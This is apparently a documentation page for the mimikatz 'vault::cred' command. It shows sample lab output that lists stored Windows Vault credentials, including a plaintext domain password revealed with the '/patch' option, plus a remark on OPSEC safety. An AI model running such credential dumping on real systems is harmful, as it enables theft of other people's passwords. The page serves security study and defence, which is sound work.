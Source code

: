 # cred

`vault::cred` enumerates vault credentials. More information can be found at Benjamin's guide [howto-\~-scheduled-tasks-credentials](https://github.com/gentilkiwi/mimikatz/wiki/howto-\~-scheduled-tasks-credentials). It has the following command line argument:

* `/patch`: [according to Benjamin](https://twitter.com/gentilkiwi/status/1241786155458277378) this option must be avoided as it is not OPSEC safe and DPAPI is a better solution

```
mimikatz # vault::cred
TargetName : TERMSRV/192.168.0.224 / <NULL>
UserName   : hacklab\m3g9tr0n
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00000000
Credential :
Attributes : 0

TargetName : Domain:target=TERMSRV/192.168.0.224 / <NULL>
UserName   : hacklab\m3g9tr0n
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00000000
Credential :
Attributes : 0

TargetName : WindowsLive:target=virtualapp/didlogical / <NULL>
UserName   : 02ihgxxcusaapvlp
Comment    : PersistedCredential
Type       : 1 - generic
Persist    : 2 - local_machine
Flags      : 00000000
Credential :
Attributes : 32
```

```
mimikatz # vault::cred /patch
TargetName : TERMSRV/192.168.0.224 / <NULL>
UserName   : hacklab\m3g9tr0n
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00000000
Credential : Suoer_SecretPass1!
Attributes : 0

TargetName : Domain:target=TERMSRV/192.168.0.224 / <NULL>
UserName   : hacklab\m3g9tr0n
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00000000
Credential : Suoer_SecretPass1!
Attributes : 0

TargetName : WindowsLive:target=virtualapp/didlogical / <NULL>
UserName   : 02ihgxxcusaapvlp
Comment    : PersistedCredential
Type       : 1 - generic
Persist    : 2 - local_machine
Flags      : 00000000
Credential :
Attributes : 32
```
